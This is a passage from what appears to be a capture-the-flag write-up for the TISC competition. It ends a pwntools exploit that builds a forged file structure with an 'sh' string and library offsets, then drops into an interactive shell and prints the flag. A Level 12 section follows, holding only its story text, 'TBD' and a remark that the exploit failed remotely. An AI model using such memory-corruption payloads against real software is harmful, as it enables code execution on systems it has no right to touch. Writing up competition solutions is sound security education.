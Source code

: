 ```python
    {
        0x0: b"  sh".ljust(8, b"\x00"),
        0x20: 0x0,
        0x28: 0x1,
        0xa0: 0x40b1a0,
        0xc0: 0x0,
        0xd8: lib2.address + 0x2170c0
    },
    filler=b"\x00"
)
get_feedback(payload)

p.interactive()

# TISC{35c4p3_fr0m_pr150n_r34lm}
```

# Revenge of the Dragon (Level 12) - Upsolve

> All your investigations have led you to this place: a desolate hut, abandoned
> and hidden deep within the forest.
> 
> As you push open the creaking door, the musty air hints at recent activity.
> Scattered belongings and half-burnt logs in the fireplace suggest someone left
> in a hurry.
> 
> In the dim light, you spot a flickering screen on a dusty table — a computer,
> still running. On the display, a game title flashes ominously: “Revenge of the
> Dragon.”
> 
> We know this is it. If we solve this we solve it all -- can you break in and
> find out who is behind these attacks?

TBD

TLDR I had local exploit working, but it didn't work on remote for a number of
reasons. Still my 2nd favourite chall after Level 11 tho!
